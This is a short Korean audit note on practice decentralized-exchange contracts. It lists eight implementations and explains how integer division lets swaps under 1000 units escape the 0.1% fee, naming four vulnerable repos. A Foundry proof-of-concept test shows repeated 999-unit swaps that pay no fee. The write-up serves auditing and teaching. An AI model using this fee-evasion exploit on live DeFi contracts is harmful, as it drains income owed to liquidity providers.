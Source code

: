 # 구현체 리스트
- https://github.com/rkdnd/DEX
- https://github.com/Jp1n9/Practice-Dex
- https://github.com/procfs-web3/practice_DEX
- https://github.com/Eunyeong2/DEX
- https://github.com/LTaeng/DEX
- https://github.com/dreamwooz3k/wooz3k_dex
- https://github.com/dh-yunjin/practice_DeFi/tree/main/DEX
- https://github.com/Kkyung123/practice_DEX

## Fee가 0이 되는 경우를 고려하지 않음
### 설명
많은 구현체에서, 0.1%의 swap fee를 계산할 때 `amount / 1000` 과 같은 나눗셈 연산을 사용하였다. 그러나, amount가 999일때와 같이 1000에 의해 나누어떨어지지 않는 경우 swap fee가 필요한 것보다 작게 계산된다.
* 취약한 구현체들: LTaeng, wooz3k, Kkyung123, Eunyeong2

### 파급력
Liquidity pool에 예치하는 동기 중 하나는 swap fee redemption이다. 만약 swap fee를 내지 않고 dex 서비스를 이용하는 악의적인 고객이 등장한다면, 해당 dex에 대한 신뢰도가 떨어질 뿐 아니라 liquidity provider들의 동기도 사라진다. 따라서 파급력은 **Medium**으로 평가하였다.

### PoC
```solidity
function testNoFee() public {
    vm.startPrank(alice);
    coinX.approve(address(dexPair), 100 ether);
    coinY.approve(address(dexPair), 100 ether);
    uint256 lptAmount = dexPair.addLiquidity(100 ether, 100 ether, 0);
    vm.stopPrank();

    vm.startPrank(bob);
    coinX.approve(address(dexPair), 100 ether);
    for (uint i = 0; i < 1000; i++) {
        dexPair.swap(999, 0, 0);
    }    
    vm.stopPrank();

    vm.startPrank(alice);
    uint256 balanceBefore = coinX.balanceOf(alice);
    dexPair.removeLiquidity(lptAmount, 0, 0);
    uint256 balanceAfter = coinX.balanceOf(alice);
    assertGt(balanceAfter - balanceBefore, 100 ether + 999 * 1000);
}
```
